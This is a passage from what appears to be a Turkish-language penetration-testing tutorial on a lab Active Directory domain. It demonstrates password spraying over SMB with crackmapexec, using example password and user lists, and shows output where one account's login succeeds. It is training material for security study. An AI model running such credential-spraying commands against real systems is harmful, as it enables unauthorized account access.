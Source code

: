 ```
cat passwords.txt
Inlanefreight01!
Inlanefreight02!
Inlanefreight03!
```


```
cat users.txt

noemi
david
carlos
grace
peter
robert
administrator
```


Şimdi **protocol** ve **target** seçmemiz ve `-u` seçeneğini kullanarak **username(ler)** veya **username içeren dosya(lar)** sağlamamız, `-p` seçeneğini kullanarak ise **password(ler)** veya **password içeren dosya(lar)** belirtmemiz gerekiyor. **SMB** **protocol**'ünü kullanarak bazı örneklere bakalım:


### Bir Dosya İçeren Username'ler ile Tek Bir Password Kullanarak Password Attack

```
crackmapexec smb 10.129.203.121 -u users.txt -p Inlanefreight01!

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\david:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\carlos:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01!
```




### Bir Liste İçeren Username'ler ile Tek Bir Password Kullanarak Password Attack

```
crackmapexec smb 10.129.203.121 -u noemi david grace carlos -p
Inlanefreight01!

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\david:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01!
```
